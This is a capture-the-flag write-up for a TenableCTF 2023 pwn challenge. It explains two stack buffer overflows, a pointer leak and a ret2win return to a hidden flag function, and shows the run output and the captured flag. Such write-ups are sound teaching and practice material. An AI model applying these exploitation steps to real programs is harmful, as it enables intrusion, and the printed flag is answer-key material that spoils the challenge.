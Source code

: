 # Initial Analysis (Decompilation)

The writer utilized the IDA Pro decompiler to facilitate a clearer understanding of the program's flow within the output code.

The executable file presents four main features:
1. Call loomRoom and return data `dest`, 
2. Print data from variable `v8` (the data inputed from no.1)
3. Need value a variable `aThisisnotthepa` to call fatesRoom
4. just exit program

# Vulnerability 

There one function never called is `theVoid`. This function appears to be designed to display a flag, so the write will assume thats the objective is successfully call function `theVoid`.

in function loomRoom, there are have buffer overflow at variable src but cann't change return address.

```
char src[8]
...
fgets(src, 286, _bss_start);
```

in function fatesRoom, there are also have buffer overflow and can change return address.
```
char dest[8];
...
strcpy(dest, a1);
```

# Exploit

First, you need to locate the method to call `fatesRoom` function. Following that, you can execute any function, such as `theVoid` function. What you require is the value from the `s2` variable.

A buffer overflow in `loomRoom` function, can be used to alter the value of `dest` variable to to your desired value, in the end of function, the `dest` variable will serve as a return value. 
```
...
v8 = loomRoom(v8, v4);
...
```
this mean that variable `dest` same as variable `v8`

After that feature number 2 can print variable `v8`, so you have abritary leak address.
```
printf("%s", v8);
```

in `fatesRoom` function , you can just do ret2win(return to win) to call `theVoid`

Run exploit 
```
└─# python2 solve.py      
[*] '/root/Desktop/github/CTF/TenableCTF2023/Reversing - Pwns/Skiddyana Pwnz and the Loom of Fate/loom'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 0.cloud.chals.io on port 33616: Done
[*] Switching to interactive mode


=============================================================================
Choose your next move:

1) Enter the room of the loom
2) Read the wall of prophecy
3) Enter the room of the fates
4) leave

> 

=============================================================================

You enter the room of the loom, and see the loom of fate before you. You can etch a prophecy into the futre, or leave the future alone.
1) Prophesize
2) Leave

> 

=============================================================================
Choose your next move:

1) Enter the room of the loom
2) Read the wall of prophecy
3) Enter the room of the fates
4) leave

> 

Before you is a large stone door. As you behold it, you hear a voice inside of your head.


Speak the unpronouncable phrase to pass to the room of fates : 

> 

=============================================================================

You enter the room of fates and see the tapestry of reality laid out before you.
The voice in your head returns:

'Are you willing to force your prophecy onto the past? To corrupt this reality to find what you seek?'

1) Yes
2) No

> 
You stretch the fabric of this reality, its premise worn thin.

...th...this is what you destroyed reality for?
Ok. Well. It's yours.

flag{d0nt_f0rg3t_y0ur_h4t}
```
## Flag

Flag : `flag{d0nt_f0rg3t_y0ur_h4t}`